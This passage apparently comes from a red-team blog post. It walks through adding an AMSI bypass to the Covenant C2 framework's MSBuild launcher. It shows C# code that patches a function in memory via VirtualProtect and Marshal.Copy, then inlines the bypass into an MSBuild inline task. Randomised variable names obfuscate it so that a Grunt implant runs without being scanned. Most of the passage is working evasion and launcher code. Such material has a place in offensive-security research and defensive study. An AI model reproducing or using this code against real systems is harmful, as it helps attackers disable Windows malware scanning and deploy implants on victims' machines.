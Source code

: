```cs
        // function so that it can be overwritten. 0x40 = PAGE_EXECUTE_READWRITE
        uint oldProtect;
        Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);

        // Apply the patch by copying the bytes over the top of the start of the
        // target function
        Marshal.Copy(patch, 0, addr, patch.Length);
    }
```

## Adding the bypass to Covenant

Adding this code to the msbuild launcher model took a bit of tweaking. Here are some issues that had to be overcome to get the bypass working in the msbuild launcher:

1. The current inline-task uses `<Code Type="Fragment">`, meaning that any code inside that tag is executed as a single function. I either need to find a way to add additional functions to the code, or inline the whole bypass
2. I need to leverage [P/Invoke](https://docs.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke) to call Win32 APIs (`LoadLibrary`, `GetProcAddress`, `VirtualProtect`), meaning I need to be able to import DLLs. To do this, I need to be able to import the `System.Runtime.InteropServices` namespace.

I solved these problems by changing the `<Code Type="Fragment">` to `<Code Type="Class">`. [as per the Microsoft Docs](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-inline-tasks?view=vs-2019#code-element) : *"If the value of Type is Class, then the Code element contains code for a class that derives from the ITask interface."* Any code inside those tags is now executed within a class, rather than a function - so that class can contain its own functions. It also means I can include my own `using` statements and import Win32 APIs.

The only other thing to do was obfuscate some of the function and variable names as I had already previously done.

**Here's the updated launcher code - including obfuscated strings for the AMSI bypass**
```cs
public MSBuildLauncher()
{
    this.Description = "Uses msbuild.exe to launch a Grunt using an in-line task.";
    this.OutputKind = OutputKind.WindowsApplication;
    this.CompressStager = true;

    // Generate random strings for xml variable names
    this.random_var_patchAmsi = RandomString();
    this.random_var_amsi = RandomString();
    this.random_var_amsi_dll = new List<string>(new string[] { RandomString(), RandomString()});
    this.random_var_amsiScanBuffer = new List<string>(new string[] { RandomString(), RandomString(), RandomString() });
    this.random_var_outputMemoryStream = RandomString();
    this.random_var_byteArray = RandomString();
    this.random_var_read = RandomString();
    this.random_var_lib = RandomString();
    this.random_var_assemblyBuffer = RandomString();
    this.random_var_deflateStream = RandomString();
}

public override string GetLauncher(string StagerCode, byte[] StagerAssembly, Grunt grunt, ImplantTemplate template)
    this.DiskCode = DiskCode.Replace("{{TARGET_NAME}}", this.TargetName);
    this.DiskCode = DiskCode.Replace("{{TASK_NAME}}", this.TaskName);

    // Replacements for obfuscation
    this.DiskCode = DiskCode.Replace("{{PATCH_AMSI}}", this.random_var_patchAmsi);
    this.DiskCode = DiskCode.Replace("{{AMSI}}", this.random_var_amsi);
    this.DiskCode = DiskCode.Replace("{{MEMORY_STREAM}}", this.random_var_outputMemoryStream);
    this.DiskCode = DiskCode.Replace("{{DEFLATE_STREAM}}", this.random_var_deflateStream);
```